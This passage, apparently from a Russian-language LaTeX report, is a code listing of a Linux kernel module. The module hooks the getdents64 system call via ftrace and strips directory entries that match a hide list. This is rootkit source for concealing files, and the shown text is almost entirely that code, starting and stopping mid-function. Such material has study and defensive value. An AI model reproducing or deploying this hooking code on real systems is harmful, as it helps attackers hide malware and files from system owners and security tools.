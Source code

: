 \begin{lstlisting}[label=code:hook1,caption=Файл hook.h]
    regs->ip = (unsigned long)hook->function;
}

int fh_install_hook(struct ftrace_hook *hook);
void fh_remove_hook(struct ftrace_hook *hook);
int fh_install_hooks(struct ftrace_hook *hooks, size_t count);
void fh_remove_hooks(struct ftrace_hook *hooks, size_t count);

#define PTREGS_SYSCALL_STUBS 1


static char *get_filename(const char __user *filename)
{
    char *kernel_filename=NULL;

    kernel_filename = kmalloc(4096, GFP_KERNEL);
    if (!kernel_filename)
        return NULL;

    if (strncpy_from_user(kernel_filename, filename, 4096) < 0) {
        kfree(kernel_filename);
        return NULL;
    }

    return kernel_filename;
}


static asmlinkage long (*real_sys_getdents64)(const struct pt_regs *);

static asmlinkage int fh_sys_getdents64(const struct pt_regs *regs)
{
    struct linux_dirent64 __user *dirent = (struct linux_dirent64 *)regs->si;
    struct linux_dirent64 *previous_dir, *current_dir, *dirent_ker = NULL;
    unsigned long offset = 0;
    int ret = real_sys_getdents64(regs);

    dirent_ker = kzalloc(ret, GFP_KERNEL);

    if ((ret <= 0) || (dirent_ker == NULL))
    {
        return ret;
    }

    long error;
    error = copy_from_user(dirent_ker, dirent, ret);

    if (error)
    {
        kfree(dirent_ker);
        return ret;
    }

    while (offset < ret)
    {
        current_dir = (void *)dirent_ker + offset;

        if (check_fs_hidelist(current_dir->d_name))
        {
            if (current_dir == dirent_ker)
            {
                ret -= current_dir->d_reclen;
                memmove(current_dir, (void *)current_dir + current_dir->d_reclen, ret);
                continue;
            }

            previous_dir->d_reclen += current_dir->d_reclen;
        }
        else
        {
            previous_dir = current_dir;
        }

        offset += current_dir->d_reclen;
    }

    error = copy_to_user(dirent, dirent_ker, ret);
    if (error)
    {
        DMSG("copy_to_user error");
    }


\end{lstlisting}
